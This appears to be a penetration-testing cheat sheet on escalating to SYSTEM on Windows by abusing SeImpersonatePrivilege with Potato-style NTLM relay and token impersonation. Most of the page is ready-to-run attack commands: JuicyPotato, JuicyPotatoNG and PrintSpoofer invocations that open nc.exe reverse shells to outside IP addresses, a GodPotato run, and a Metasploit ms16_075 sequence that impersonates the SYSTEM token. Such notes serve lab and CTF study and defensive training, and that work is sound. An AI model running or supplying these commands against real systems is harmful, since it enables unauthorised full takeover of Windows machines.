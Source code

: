 And SeAssignPrimaryToken lol
#### High-level Overview
1. Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
2. Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
3. Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.
```powershell
Privilege Name                          Description 
======================================= ====================================
SeImpersonatePrivilege                  Impersonate a client after authentication
```

#### Exploitation
[Juicy Potato](https://github.com/antonioCoco/JuicyPotatoNG)
```powershell
.\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\ProgramData\nc.exe 10.10.15.155 4443 -e cmd.exe" -t *

.\JuicyPotatoNG.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\ProgramData\nc.exe 10.10.15.155 8443 -e cmd.exe" 
```

[GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20)
```powershell
.\godpotato.exe -cmd "cmd /c whoami"
```

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```powershell
.\PrintSpoofer32.exe -i -c cmd
.\PrintSpoofer32.exe -c "C:\programdata\nc.exe 172.16.8.120 1337 -e powershell.exe"
```

Meterpreter
Find [CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
```bash
background
use exploit/windows/local/ms16_075_reflection_juicy
set LHOST tun0
set LPORT 4443
set sessions 1

exploit

load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
whoami
```
